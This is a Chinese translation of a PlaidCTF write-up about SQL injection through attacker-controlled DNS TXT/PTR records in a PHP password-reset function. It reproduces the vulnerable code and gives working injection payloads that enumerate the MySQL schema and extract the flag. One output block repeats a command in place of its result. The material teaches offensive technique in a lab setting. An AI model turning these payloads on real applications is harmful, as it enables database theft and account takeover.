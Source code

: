 # SQL Injection via DNS

2015/01/15 12:35 | [BMa](http://drops.wooyun.org/author/BMa "由 BMa 发布") | [web 安全](http://drops.wooyun.org/category/web "查看 web 安全 中的全部文章"), [技术分享](http://drops.wooyun.org/category/tips "查看 技术分享 中的全部文章") | 占个座先 | 捐赠作者

原文：[`blog.skullsecurity.org/2014/plaidctf-writeup-for-web-300-whatscat-sql-injection-via-dns`](https://blog.skullsecurity.org/2014/plaidctf-writeup-for-web-300-whatscat-sql-injection-via-dns)

建议先看：[`drops.wooyun.org/papers/3133`](http://drops.wooyun.org/papers/3133)

## 0x00 分析

* * *

Whatscat 是一个可以上传猫咪的照片并且可以评论的 php 应用，地址：

https://blogdata.skullsecurity.org/whatscat.tar.bz2

漏洞代码存在于 login.php 的密码重置模块，如下：

```
elseif (isset($_POST["reset"])) {
    $q = mysql_query(sprintf("select username,email,id from users where username='%s'",
      mysql_real_escape_string($_POST["name"])));
    $res = mysql_fetch_object($q);
    $pwnew = "cat".bin2hex(openssl_random_pseudo_bytes(8));
    if ($res) {
      echo sprintf("<p>Don't worry %s, we're emailing you a new password at %s</p>",
        $res->username,$res->email);
      echo sprintf("<p>If you are not %s, we'll tell them something fishy is going on!</p>",
        $res->username);
$message = <<<CAT
Hello. Either you or someone pretending to be you attempted to reset your password.
Anyway, we set your new password to $pwnew

If it wasn't you who changed your password, we have logged their IP information as follows:
CAT;
      $details = gethostbyaddr($_SERVER['REMOTE_ADDR']).
        print_r(dns_get_record(gethostbyaddr($_SERVER['REMOTE_ADDR'])),true);
      mail($res->email,"whatscat password reset",$message.$details,"From: whatscat@whatscat.cat\r\n");
      mysql_query(sprintf("update users set password='%s', resetinfo='%s' where username='%s'",
              $pwnew,$details,$res->username));
    }
    else {
      echo "Hmm we don't seem to have anyone signed up by that name";
    }

```

注意如下代码：

```
  $details = gethostbyaddr($_SERVER['REMOTE_ADDR']).
    print_r(dns_get_record(gethostbyaddr($_SERVER['REMOTE_ADDR'])),true);
  mail($res->email,"whatscat password reset",$message.$details,"From: whatscat@whatscat.cat\r\n");
  mysql_query(sprintf("update users set password='%s', resetinfo='%s' where username='%s'",
          $pwnew,$details,$res->username));

```

$details 变量未编码即插入数据库中。我注意到过去人们过于相信 DNS 查询返回的结果，这是这种误区的最好事例！如果我们能够在 DNS 请求中插入 SQL 语句，就万事大吉了！

在完成 Whatscat 挑战过程中，我点击 forgot password，输入用户名：admin，然后它发送给我的一个 Mailinator，一个邮件服务器。我登录这个邮箱，注意到有些人尝试通过 TXT 记录进行 SQL 注入，这些可能是其他用户留下的记录。

这个 TXT 记录实际上是用于便捷地控制所有 SkullSpace ip 地址的 PTR 记录，它能够做一些有用的事情而不是用来破坏！我用这个服务器做 blog 和一些在 SkullSpace 网络上的东西，然后我通过它设置了 test.skullseclabs.org 的 PTR 记录。实际上，如果你对 206.220.196.59 进行 DNS 解析，你会看见如下内容：

```
$ host blog.skullsecurity.org
blog.skullsecurity.org is an alias for skullsecurity.org.
skullsecurity.org has address 206.220.196.59
$ host 206.220.196.59
59.196.220.206.in-addr.arpa domain name pointer test.skullseclabs.org.

```

我为 test.skullseclabs.org 控制了授权服务器，所以我可以伪造任意记录。虽然对于这个级别来说是杀鸡用牛刀，但是至少我不用每次为了改变一条记录而翻到注册页面，并且我可以使用我写的一个叫做 dnsxss 的工具快速做到：

https://github.com/iagox86/nbtool

```
$ sudo ./dnsxss --payload="Hello yes this is test"
Listening for requests on 0.0.0.0:53
Will response to queries with: Hello/yes/this/is/test

$ dig -t txt test123.skullseclabs.org
[...]
;; ANSWER SECTION:
test123.skullseclabs.org. 1     IN      TXT     "Hello yes this is test.test123.skullseclabs.org"

```

现在要做的就是找到合适的 payload！

## 0x01 The exploit

* * *

我并不是盲注的 fans，所以我在本地服务器搭了一个版本，打开 SQL 错误。然后我开始开发一个 exploit！这是一条 update 语句，所以不能直接注入。我只能间接地通过将数据库内容返回在 email 上来读取。我也不知道如何适当地终止 SQL 语句(既不用#，也不用--，以及;)，最终我的 payload 将能够：

```
UPDATE 其他的值到 email 字段上
恰当地读到最后，意味着用”resetinfo=”结束查询，所以”resetinfo=”字段会被余下部分填充。 
```

最终 payload 如下：

```
./dnsxss --payload="test', email='test1234', resetinfo='" 
```

我创建了一个账户，从我的 ip 重置密码，刷新。在测试服务器上完整的语句如下：

```
update users set password='catf7a252e008616c94', resetinfo='test.skullseclabs.orgArray ( [0] => Array ( [host] => test.skullseclabs.org [class] => IN [ttl] => 1 [type] => TXT [txt] => test', email='test1234', resetinfo='.test.skullseclabs.org [entries] => Array ( [0] => test', email='test1234', resetinfo=' ) ) ) ' where username='ron' 
```

运行之后，重置密码内容如下：

```
Don't worry ron, we're emailing you a new password at test1234

If you are not ron, we'll tell them something fishy is going on! 
```

已经成功重置了密码！

但是我想要的不是这个！

Mysql 有一个非常便利的数据库叫做 information_schema，可以通过它导出所有内容，修改 payload 如下：

```
./dnsxss --payload="test', email=(select group_concat(SCHEMA_NAME separator ', ') from information_schema.SCHEMATA), resetinfo='" 
```

找回密码，刷新一下，收到如下邮件：

```
Don't worry ron, we're emailing you a new password at information_schema, mysql, performance_schema, whatscat

If you are not ron, we'll tell them something fishy is going on! 
```

得到 whatscat 的所有表名：

```
./dnsxss --payload="test', email=(select group_concat(TABLE_NAME separator ', ') from information_schema.TABLES where TABLE_SCHEMA='whatscat'), resetinfo='" 
```

收到邮件：

```
./dnsxss --payload="test', email=(select group_concat(TABLE_NAME separator ', ') from information_schema.TABLES where TABLE_SCHEMA='whatscat'), resetinfo='" 
```

得到 flag 表的所有列名：

```
./dnsxss --payload="test', email=(select group_concat(COLUMN_NAME separator ', ') from information_schema.COLUMNS where TABLE_NAME='flag'), resetinfo='" 
```

收到邮件：

```
Don't worry ron, we're emailing you a new password at flag

If you are not ron, we'll tell them something fishy is going on! 
```

最后取出列中的内容：

```
./dnsxss --payload="test', email=(select group_concat(flag separator ', ') from whatscat.flag), resetinfo='" 
```

得到 flag：

```
Don't worry ron, we're emailing you a new password at 20billion_d0llar_1d3a

If you are not ron, we'll tell them something fishy is going on! 
```

## 0x02 总结

* * *

这篇 paper 的重点是通过伪造了 PTR 的记录类型，将 DNS 查询的 TXT 记录定向到自己控制的 dns 服务器，从而控制了 DNS 插叙返回的内容，而人们往往是无条件信任 DNS 查询返回的内容。

版权声明：未经授权禁止转载 [BMa](http://drops.wooyun.org/author/BMa "由 BMa 发布")@[乌云知识库](http://drops.wooyun.org)

分享到：

### 相关日志

*   [Hacking Oracle with Sql Injection](http://drops.wooyun.org/tips/57)
*   [Drupal – pre Auth SQL Injection Vulnerability](http://drops.wooyun.org/papers/3197)
*   [False SQL Injection and Advanced Blind SQL Injection](http://drops.wooyun.org/tips/4322)
*   [wechall mysql 关卡题解](http://drops.wooyun.org/papers/1321)
*   [PHP WDDX Serializier Data Injection Vulnerability](http://drops.wooyun.org/tips/3911)
*   [Tor 隐身大法 —— 用 Tor 来帮助我们进行渗透测试](http://drops.wooyun.org/tips/1226)